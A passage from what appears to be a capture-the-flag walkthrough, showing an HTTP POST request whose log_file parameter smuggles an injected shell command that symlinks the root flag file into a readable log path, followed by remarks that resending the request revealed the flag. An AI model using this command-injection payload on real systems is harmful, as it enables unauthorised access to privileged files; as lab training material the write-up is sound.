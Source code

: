 ```bash
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

log_file=%2Fvar%2Flog%2Froot.txt;ln%20-s%20/root/root.txt%20/var/log/root.txt +s  &analyze_log=
```

![picture alt](assets/root_log.png)

We got the symlink to the `root flag`. Let's resend the POST request

![picture alt](assets/root_flag.png)

